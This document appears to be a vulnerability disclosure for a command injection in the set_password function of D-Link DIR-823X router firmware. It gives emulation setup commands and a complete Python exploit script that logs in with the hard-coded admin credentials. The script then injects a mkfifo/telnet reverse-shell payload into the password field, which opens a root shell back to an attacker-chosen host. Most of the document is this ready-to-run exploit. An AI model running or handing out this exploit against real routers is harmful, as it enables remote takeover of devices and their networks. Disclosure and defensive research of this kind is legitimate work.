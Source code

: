 Dlink-dir-823x-set-password command injection
Vulnerability Details
Affected firmware: 20250416
Impact: Remote unauthenticated attackers can execute arbitrary commands as root.

The password reset function in this backend
The blacklist has verified the parameters but can be bypassed using&. It should be noted that we need to verify the old password here, which is hard coded admin. We can simply construct old_ passwd as admin.

Supplier website：https://www.dlink.com.cn/

![1751863763641](https://github.com/user-attachments/assets/df074ed8-f38f-4d5f-ba3d-3a65b3d6b8df)

![1751864259149](https://github.com/user-attachments/assets/3eab435d-4166-4e69-8c1b-43bd3473e876)

Blacklist not verified&

![1751864329902](https://github.com/user-attachments/assets/b2d476c6-d1ac-4ac3-86b0-83375cfbaf3f)

![1751864141814](https://github.com/user-attachments/assets/8ec69431-21a0-408b-9e12-2efaab6679d4)

User simulation

```
sudo chroot ./ ./qemu-aarch64-static -- ./usr/sbin/goahead -f
```

Configure network card

```
ip link add name br-lan type bridge

ip link set br-lan up

ip addr add 192.168.1.1/24 dev br-lan
```

exp

```
import requests
import hmac
import hashlib
import re

def extract_cookies(response):
    cookie_header = response.headers.get('Set-Cookie', '')
    session_id = re.search(r'sessionid=([^;]+)', cookie_header)
    auth_token = re.search(r'token=([^;]+)', cookie_header)
    return (
        session_id.group(1) if session_id else None,
        auth_token.group(1) if auth_token else None
    )

def fetch_login_page(host_ip):
    url = f"http://{host_ip}/login.html"
    response = requests.get(url)
    if response.status_code == 200:
        return extract_cookies(response)
    return None, None

def encrypt_password(password, token):
    return hmac.new(token.encode(), password.encode(), hashlib.sha256).hexdigest()

def submit_login(host_ip, username, hashed_password, session_id, token):
    url = f"http://{host_ip}/goform/login"
    payload = {
        "username": username,
        "password": hashed_password,
        "token": token
    }
    cookies = {'sessionid': session_id, 'token': token}
    return requests.post(url, data=payload, cookies=cookies)

def send_set_wifidog_settings_request(host_ip, session_id, token, ip, port):
    url = f"http://{host_ip}/goform/set_password"
    payload = {
        "http_passwd": f"1\" && ash -c \"mkfifo /tmp/meigui1 && telnet {ip} {port} 0</tmp/meigui1|/bin/sh >/tmp/meigui1",
        "old_passwd": "admin",
        "token": token
    }
    cookies = {'sessionid': session_id, 'token': token}
    return requests.post(url, data=payload, cookies=cookies)

def main():
    host_ip = input("路由器地址 (如 192.168.1.1): ")
    username = "admin"
    password = "admin"
    ip = input("你的监听 IP (如 192.168.1.100): ")
    port = input("你的监听端口 (如 6666): ")

    session_id, token = fetch_login_page(host_ip)
    if not session_id or not token:
        print("[×] 获取 login.html 失败")
        return

    hashed_pwd = encrypt_password(password, token)
    login_resp = submit_login(host_ip, username, hashed_pwd, session_id, token)
    if login_resp.status_code != 200:
        print("[×] 登录失败")
        return

    # 登录成功后重新获取 cookie（有些设备会变）
    session_id, token = extract_cookies(login_resp)
    if not session_id or not token:
        print("[×] 登录后提取 token 失败")
        return

    # 发起注入利用
    exploit_resp = send_set_wifidog_settings_request(host_ip, session_id, token, ip, port)
    if exploit_resp.status_code == 200:
        print("[√] 利用请求已发送，检查你的监听端口！")
    else:
        print("[×] 利用请求失败", exploit_resp.status_code)

if __name__ == "__main__":
    main()


```


![image](https://github.com/user-attachments/assets/c43c166b-5cf7-4fd4-850d-54c35e46ece0)
![image (1)](https://github.com/user-attachments/assets/a5402f43-2341-44c0-adab-11297f4f6b8d)


